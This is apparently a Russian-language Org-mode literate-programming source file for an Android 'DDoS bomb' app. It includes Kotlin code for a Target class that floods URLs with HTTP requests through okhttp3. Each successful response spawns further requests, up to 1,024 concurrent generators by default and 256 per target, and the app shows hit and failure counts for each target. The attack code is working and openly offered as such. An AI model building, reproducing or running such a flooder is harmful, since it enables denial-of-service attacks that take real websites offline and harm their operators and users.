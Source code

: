 #+title: =DDoS=-бомба на =Android=

Использует те же алгоритмы, что и другие бомбы. Скелет проекта создан с помощью автоматического
генератора шаблонов =Android Studio=, при реализации было учтено несколько важных моментов.

* =HTTP=-запросы

Делаются с помощью библиотеки =okhttp3=, образец описан в [[https://medium.com/@chris_42047/making-rest-calls-in-kotlin-android-using-okhttp-and-couroutines-dcff3b525ad6][примере]]. Однако, в описании есть следующие
неточности.

Важно, что =http=-запросы не могут вызываться в главном потоке, вместо этого использована асинхронная
библиотека [[https://developer.android.com/kotlin/coroutines][Kotlin coroutines]]. Однако в примере показано, что переменные, якобы, могут быть использованы
за пределами контекста. На самом деле, все переменные в пределах контекста недоступны, а чтобы получить
доступ к элеметам пользовательского интерфейса, нужно выполнять код внутри главного контекста, как
описано в [[https://stackoverflow.com/questions/59491707/how-to-wait-for-end-of-a-coroutine][рекомендации]].

В примере также предлагается воспользоваться =klaxon= для декодирования =json=-ответов. Однако, этот код
не работает, если ответ является массивом строк, в этом случае почему-то после декодирования получается
массив из одной строки-аргумента. Вместо этого пришлось воспользоваться стандартным декодером [[https://developer.android.com/reference/kotlin/org/json/JSONArray][JSONArray]],
который отработал правильно и не требует сторонних библиотек.

* Разрешения сети

Для доступа к сети приложению нужно разрешение =INTERNET= со следующими особенностями.

В файле манифеста необходимо добавить строку

#+begin_src xml
  <?xml version="1.0" encoding="utf-8"?>
  <manifest ...>
      <uses-permission android:name="android.permission.INTERNET" />
      <application
          ...
          ...>
          ...
      </application>
  </manifest>
#+end_src

Однако и это не решает всех проблем, так как не допускает вызова по небезопасному =http=-протоколу. В
[[https://stackoverflow.com/questions/45940861/android-8-cleartext-http-traffic-not-permitted][примере]] описано, что необходимо указать атрибут ~usesCleartextTraffic~.

#+begin_src xml
  <?xml version="1.0" encoding="utf-8"?>
  <manifest ...>
      ...
      <application
          ...
          android:usesCleartextTraffic="true"
          ...>
          ...
      </application>
  </manifest>
#+end_src

* Табличная раскладка

Сделана на основе [[https://www.tutorialspoint.com/android/android_table_layout.htm][примера]] и [[https://developer.android.com/reference/android/widget/TableLayout][документации]]. Сложность тут в том, что таблица будет генерироваться
динамически, на основе полученного списка строк.

* Использование связок

/Связки/ (/Binding/) упрощают доступ к отдельным элементам пользовательского интерфейса. Их использование
описано в [[https://developer.android.com/topic/libraries/view-binding#kotlin][документации]].

* Цель
:PROPERTIES:
:ID:       bc4ffae5-5c54-41b6-90ce-8014da06da4e
:END:

#+begin_src kotlin :noweb yes :tangle app/src/main/java/com/kosenko/stopwar/Target.kt
  package com.kosenko.stopwar

  import okhttp3.OkHttpClient
  <<stopwar-android:Target:Импорт>>

  data class Target(
      val url: String,
      <<stopwar-android:Target:Атрибуты>>
  ) {
      companion object {
          val httpClient = OkHttpClient()
          <<stopwar-android:Target:Определения-класса>>
      }

      <<stopwar-android:Target:Определения-экземпляра>>
  }
#+end_src

** Статистика

Статистика цели включает количество генераторов ~jobsCount~, количество успешных вызовов ~successCount~ и
количество неудачных вызовов ~failureCount~. Так как эти атрибуты используются в разных потоках, они тоже
должны быть [[https://developer.android.com/reference/kotlin/java/util/concurrent/atomic/AtomicInteger][атомарными]].

#+begin_src kotlin :noweb-ref stopwar-android:Target:Импорт
  import java.util.concurrent.atomic.AtomicInteger
#+end_src

#+begin_src kotlin :noweb-ref stopwar-android:Target:Атрибуты
  var jobsCount: AtomicInteger = AtomicInteger(0),
  var successCount: AtomicInteger = AtomicInteger(0),
  var failureCount: AtomicInteger = AtomicInteger(0),
#+end_src

** Признак исполнения

Признак исполнения ~isRun~ является общим для всех целей, а потому опделеняется для класса.

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-класса
  var isRun = false
#+end_src

** Общее количество генераторов

Кроме счетчиков генераторов в отдельных задачах введем общий счетчик задач. Так как это поле используется
совместно несколькими потоками, его нужно сделать [[https://developer.android.com/reference/kotlin/java/util/concurrent/atomic/AtomicInteger][атомарным]].

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-класса
  var jobsCount = AtomicInteger(0)
#+end_src

** Процент неудач

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-экземпляра
  fun failRate(): UInt {
      val sc = successCount.toFloat()
      val fc = failureCount.toFloat()
      return (fc / (sc + fc) * 10000 / 100).toUInt()
  }
#+end_src

** Вызов цели

Для простоты метод ~hit~ объединен с ~run~.

#+begin_src kotlin :noweb-ref stopwar-android:Target:Импорт
  import okhttp3.Callback
  import okhttp3.Request
  import okhttp3.Call
  import okio.IOException
  import okhttp3.Response
#+end_src

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-экземпляра
  private fun hit() {
      val req = Request.Builder()
          .url(url).build()
      val call = httpClient.newCall(req)
      call.enqueue(
          object: Callback {
              override fun onFailure(call: Call, e: IOException) {
                  failureCount.incrementAndGet()
                  jobsCount.decrementAndGet()
                  Target.jobsCount.decrementAndGet()
              }

              override fun onResponse(call: Call, response: Response) {
                  if (response.isSuccessful) {
                      successCount.incrementAndGet()
                      if (isRun && Target.jobsCount.get() < totalJobsLimit.get() && jobsCount.get() < targetJobsLimit.get()) {
                          hit()
                          spawn()
                      } else {
                          jobsCount.decrementAndGet()
                          Target.jobsCount.decrementAndGet()
                      }
                  } else {
                      failureCount.incrementAndGet()
                      jobsCount.decrementAndGet()
                      Target.jobsCount.decrementAndGet()
                  }
              }
          }
      )
  }

#+end_src

** Порождение

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-экземпляра
  fun spawn() {
      if (isRun && Target.jobsCount.get() < totalJobsLimit.get() && jobsCount.get() < targetJobsLimit.get()) {
          jobsCount.incrementAndGet()
          Target.jobsCount.incrementAndGet()
          hit()
      }
  }
#+end_src

** Построение строки

#+begin_src kotlin :noweb-ref stopwar-android:Target:Импорт
  import android.content.Context
  import android.widget.TableRow
  import android.widget.TextView
#+end_src

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-экземпляра
  fun newRow(ctx: Context): TableRow {
      val result = TableRow(ctx)

      val rlp = TableRow.LayoutParams(
          TableRow.LayoutParams.WRAP_CONTENT,
          TableRow.LayoutParams.WRAP_CONTENT,
          1F
      )

      result.addView(newCol(ctx, rlp, url))
      result.addView(newNumericCol(ctx, rlp, jobsCount.toString()))
      result.addView(newNumericCol(ctx, rlp, successCount.toString()))
      result.addView(newNumericCol(ctx, rlp, failureCount.toString()))
      result.addView(newNumericCol(ctx, rlp, failRate().toString()))

      return result
  }

  private fun newCol(ctx: Context, lp: TableRow.LayoutParams, v: String): TextView {
      val result = TextView(ctx)
      result.text = v
      result.layoutParams = lp
      result.setPadding(8, 0, 0, 0)
      return result
  }

  private fun newNumericCol(ctx: Context, lp: TableRow.LayoutParams, v: String): TextView {
      val result = newCol(ctx, lp, v)
      result.textAlignment = TextView.TEXT_ALIGNMENT_TEXT_END
      return result
  }
#+end_src
* Параметры

** Порог общего количества генераторов

Значение /Порога общего количества генераторов/ (/Total Jobs Limit/) ограничивает общее количество
генераторов. По умолчанию это значение равно ~1024~.

Управление этим порогом выполняется через редактор ~totalJobsLimitEditor~. Для простоты будем считать,
что значение этого редактора, которое задается в описании интерфейса пользователя, по умолчанию тоже
равно ~1024~, что позволит не выполнять инициализацию параметра при запуске.

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-класса
  val TOTAL_JOBS_LIMIT_DEFAULT = 1024U
  var totalJobsLimit = AtomicInteger(TOTAL_JOBS_LIMIT_DEFAULT.toInt())
#+end_src

** Порог количества генераторов на цель

Значение /Порога количества генераторов на цель/ (/Jobs per Target Limit/, /Target Jobs Limit)
ограничивает количество генераторов на одну цель. По умолчанию это значение равно ~256~.

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-класса
  val TARGET_JOBS_LIMIT_DEFAULT = 256U
  var targetJobsLimit = AtomicInteger(TARGET_JOBS_LIMIT_DEFAULT.toInt())
#+end_src

Управление этим порогом выполняется через редактор ~targetJobsLimitEditor~. Для простоты будем считать,
что значение этого редактора, которое задается в описании интерфейса пользователя, по умолчанию тоже
равно ~256~, что позволит не выполнять инициализацию параметра при запуске.

** Порог отображения целей

Значение /Порога отображения целей/ (/Show Target Limit/) определяет, сколько генераторов должно работать
по цели, чтобы она отображалась в статистике. По умолчанию это значение равно ~2~.

#+begin_src kotlin :noweb-ref stopwar-android:Target:Определения-класса
  val SHOW_TARGET_LIMIT_DEFAULT = 2U
  var showTargetLimit = AtomicInteger(SHOW_TARGET_LIMIT_DEFAULT.toInt())
#+end_src

Управление этим порогом выполняется через редактор ~targetJobsLimitEditor~. Для простоты будем считать,
что значение этого редактора, которое задается в описании интерфейса пользователя, по умолчанию тоже
равно ~256~, что позволит не выполнять инициализацию параметра при запуске.

* TODO Выделить ~Target~ в отдельный файл
